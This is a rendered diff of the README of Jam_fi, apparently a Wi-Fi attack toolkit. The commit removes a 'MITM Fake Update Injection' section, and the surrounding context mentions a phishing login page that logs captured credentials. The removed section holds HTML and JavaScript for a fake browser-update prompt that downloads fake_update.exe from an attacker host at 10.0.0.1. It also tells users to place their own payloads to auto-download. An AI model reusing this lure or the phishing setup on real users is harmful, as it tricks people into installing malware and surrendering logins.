

Before and after one commit to ekomsSavior/Jam_fi, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -168,29 +201,6 @@ Edit `loot/login.html` to create a custom phishing page:
 
 Captured credentials are logged to `loot/creds.txt`.
 
----
-
-## MITM Fake Update Injection
-
-You can simulate a fake update prompt with `loot/injection.html`:
-
-```html
-<h2>Browser Update Required</h2>
-<p>To continue browsing, please install the latest security patch.</p>
-<button onclick="downloadUpdate()">Update Now</button>
-
-<script>
-function downloadUpdate() {
-  const a = document.createElement('a');
-  a.href = 'http://10.0.0.1/fake_update.exe';
-  a.download = 'update.exe';
-  document.body.appendChild(a);
-  a.click();
-}
-</script>
-```
-
-Add your own payloads to the `loot/` directory and they will auto-download when the button is clicked.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+45 -12 lines).
